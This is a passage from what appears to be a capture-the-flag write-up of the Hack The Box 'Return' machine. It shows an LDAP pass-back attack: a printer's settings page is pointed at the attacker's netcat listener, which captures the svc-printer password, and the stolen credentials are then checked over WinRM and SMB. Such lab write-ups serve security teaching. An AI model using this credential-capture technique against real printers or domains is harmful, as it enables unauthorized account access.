 It seems that only the ip we specify is actually being sent towards the server-side via the request, and the rest of the values on the settings page are not being sent.

Hmm, the first thing that comes to mind, is the server address (since only that is being sent from the request), it seems that the printer listens on the server address and port we specify. 

---
# Foothold

### Connecting to the printer service

BUT since we can specify these details, why dont we try to make it connect to our machine? So we could try specifying the server address to our host’s ip, click update and see if we get connection back to our machine.

After updating, i started my listener, and since we dont know exactly the port, i will take for granted that the port is 389 as the preselected values on the settings page implied.
```bash
nc -lnvp 389
```

aand we got connection back!
```bash
listening on [any] 389 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.165.239] 64655
0*`%return\svc-printer�
                       1edFg43012!!
```

and the best part is that it just sent us sth that appears to be the password:
```bash
1edFg43012!!
```

great! now we have credentials for a valid user `svc-printer`, the creds for future reference are:
```bash
svc-printer
1edFg43012!!
```

## Checking where we can login with found creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh return.htb 'svc-printer' '1edFg43012!!'
```

```bash
[*] Checking if winrm port 5985 is open on return.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.165.239  5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
WINRM       10.129.165.239  5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)

[*] Checking if smb port 445 is open on return.htb...
[+] Port 445 open — checking smb with netexec
[*] Copying default configuration file
SMB         10.129.165.239  445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.165.239  445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 

[*] Checking if ldap port 389 is open on return.htb...
[+] Port 389 open — checking ldap with netexec
```